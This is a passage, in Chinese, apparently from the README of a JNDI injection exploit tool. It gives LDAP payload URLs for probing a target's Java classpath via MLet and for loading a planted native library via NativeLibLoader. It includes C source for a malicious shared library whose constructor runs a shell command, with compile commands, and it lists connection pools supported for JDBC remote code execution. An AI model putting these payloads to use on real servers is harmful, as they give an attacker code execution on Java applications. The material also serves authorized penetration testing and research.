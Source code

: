 利用 `javax.management.loading.MLet` 的 loadClass 和 addURL 方法探测 classpath 中存在的类

如果 `com.example.TestClass` 这个类存在, 则 HTTP 服务器会接收到一个 `/com/example/TestClass_exists.class` 请求

```bash
# MLet
ldap://127.0.0.1:1389/MLet/com.example.TestClass
```

### NativeLibLoader

利用 `com.sun.glass.utils.NativeLibLoader.loadLibrary` 方法加载目标服务器上的本地库

需要先提前以其它方式在目标机器上写入 dll/so/dylib

注意传入的 path 为绝对路径, 且不能包含后缀名

例如: 服务器上存在 `/tmp/evil.so`, 则 path 为 `/tmp/evil`

```bash
# NativeLibLoader
ldap://127.0.0.1:1389/NativeLibLoader/<base64-url-encoded-path-to-native-library>
```

本地库源码

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("open -a Calculator");
}
```

编译

```bash
# macOS
gcc -shared -fPIC exp.c -o exp.dylib

# Linux
gcc -shared -fPIC exp.c -o exp.so
```

## JDBC RCE

支持以下数据库连接池的 JDBC RCE

- Commons DBCP
- Tomcat DBCP
- Tomcat JDBC
- Alibaba Druid
- HikariCP

需要将 URL 中的 `Factory` 替换为如下内容之一

- CommonsDBCP1
- CommonsDBCP2
- TomcatDBCP1
- TomcatDBCP2
- TomcatJDBC
- Druid
- HikariCP
